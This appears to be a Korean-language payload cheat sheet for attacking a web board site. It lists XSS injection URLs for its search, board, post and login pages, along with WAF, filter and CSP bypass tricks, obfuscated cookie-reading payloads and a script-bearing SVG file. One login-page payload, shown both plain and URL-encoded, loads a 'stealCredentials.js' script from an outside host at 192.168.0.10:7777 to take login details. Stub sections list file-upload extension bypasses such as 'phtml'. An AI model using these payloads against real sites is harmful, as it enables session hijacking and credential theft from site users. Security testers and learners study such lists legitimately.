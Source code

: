 # Payloads

## XSS

### Attack surfaces

- 게시글 검색 `search.php`의 `q` 파라미터

- 게시판 선택 시 `board.php`의 `page` 파라미터

- 글 생성 및 댓글 생성 `post.php` | `stored xss` 

### Payloads

<!-- 검색하는 곳; 숫자 및 문자열 삽입-->
`/search.php?q=<script>alert%287%29<%2Fscript>`

`/search.php?q=<script>alert%28%27test%27%29<%2Fscript>`

`/search.php?q=<img+src%3Dx+onerror%3D"%26%230000106%26%230000097%26%230000118%26%230000097%26%230000115%26%230000099%26%230000114%26%230000105%26%230000112%26%230000116%26%230000058%26%230000097%26%230000108%26%230000101%26%230000114%26%230000116%26%230000040%26%230000039%26%230000088%26%230000083%26%230000083%26%230000039%26%230000041">`

<!-- Unicode encoding -->
`/search.php?q=<script>%5Cu0061lert%281%29<%2Fscript>`

`/search.php?q=<object+data%3D"data%3Atext%2Fhtml%2C<script>alert%281%29<%2Fscript>">`

<!-- 글 생성 및 출력되는 곳-->
<!-- 댓글 생성 및 출력되는 곳-->
`GET /post.php`

`/board.php?page=2<ScRiPt>alert(%27page%27)</sCripT>`

`/index.php?page=2xssz"><img/src=x%20onerror=confirm(999)><!--`

`/post.php?id=41"><img/src=x%20onerror=confirm(999)><!--&board=3`

`/board.php?page=2</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

<!-- 로그인 페이지; username 파라미터; value 속성 내 -->
`/login.php?username=test"><img%20src=x%20onerror=alert(1)>`

`/login.php?username="><base%20href%3d"http%3a%2f%2fgoogle%2ecom%2f">`

<!-- ?username="><script%20src="http://192.168.0.10:7777/stealCredentials.js"></script><br -->
<!-- 로그인 정보 탈취; 페이로드 URL 인코딩 -->
`/login.php?username=%22%3e%3c%73%63%72%69%70%74%25%32%30%73%72%63%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%30%3a%37%37%37%37%2f%73%74%65%61%6c%43%72%65%64%65%6e%74%69%61%6c%73%2e%6a%73%22%3e%3c%2f%73%63%72%69%70%74%3e`

<!-- Custom tag 이용 -->
`/search.php?q=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x`

<!-- DOM XSS; board.php 확인 -->
`/board.php?page=2<script>alert(%27xss%27)</script>`

<!-- WAF 우회; () 사용하지 못하고, 16진수 인코딩 기법 사용 및 객체 리터럴로 onerror 이벤트에 eval 함수 적용 후 throw를 통해 트리거 -->
`/board.php?page=2<script>{onerror=eval}throw%27=alert\x281337\x29%27</script>`

<!-- CSP 우회 -->
`?token=;script-src-elem 'unsafe-inline'&search=<script>alert('XSS')</script>`

<!-- 만약 a 태그의 href 속성이 막혔을 경우 -->
`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>`

`<svg><animateTransform onbegin=alert(1)>`

<!-- 만약 태그 내 속성이 ">를 통해서 안 닫힐경우, 속성을 이어서 적는 방식 사용 -->
`" autofocus onfocus=alert(1) x="`

`/login.php?username="%20autofocus%20onfocus=alert(1)%20x="`

<!-- <a href="$_GET['homepage']"></a> 부분이 존재할 때, 속성에 직접 pseudo-protocol 삽입 -->
`/post.php?id=51&board=3&homepage=javascript:alert(1)`

`?homepage=data:text/html,<script>alert(1)</script>`

<!-- <script>const searchTerms = '<?php echo $_GET['q'];?>'</script> 와 같은 형식으로 검색어를 받을 때-->
`/search.php?q=%27;alert(document.domain)//`

<!-- <?php $output = str_replace("'", "\\'", $output); ?> 와 같이 작은 따옴표를 이스케이프할 때 -->
`/search.php?q=\%27;alert(document.domain)//`

<!-- 글 수정하는 곳 -->
`/edit_post.php?id=51"%20autofocus%20onfocus="alert(1)<!--`

<!-- 문자열 치환 사용 -->
`/search.php?q=<img%20src="x"%20onerronerroror="alert(1)">`

<!-- const isSafeInput = x => !/<script|<img|<input|<.*on/is.test(x); 필터링 우회-->
`<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">`

<!-- Unicode, ASCII, Computed member access를 이용한 우회 -->
`alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)`
`window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)`

<!-- String.fromCharCode를 이용한 우회 -->
`<script>window[String.fromCharCode(97, 108, 101, 114, 116)](1)</script>`

<!-- 36진수 변환을 통한 우회 -->
`<script>window[17795081..toString(36)](1)</script>`

<!-- 백틱(`)을 통한 우회 -->
`<script>alert`1`</script>`

<!-- alert, document, cookie 문자 필터링 우회 -->
`<script>this['al'+'ert'](this['do'+'cument']['coo'+'kie'])<script>`

<!-- location.hash를 통한 우회; 길이 검증이 존재할 때 -->
`<img src onerror="eval(location.hash.slice(1))">#alert(document.cookie);`

<!-- svg file -->
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert('xss');
   </script>
</svg>
```

### WAF Bypass

- 적용 가능한 태그 및 이벤트 핸들러 무차별 대입 공격으로 확인

- 모든 HTML 태그가 막혀있을 경우, Custom tag 사용

- Unicode 인코딩 기법 사용

- 프로필 이미지에 svg 업로드가 가능할 시 svg 파일 내에 페이로드 삽입

### Cheat Sheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet



## SQL Injection

## File upload

### 우회 확장자

`pHp` `phtml`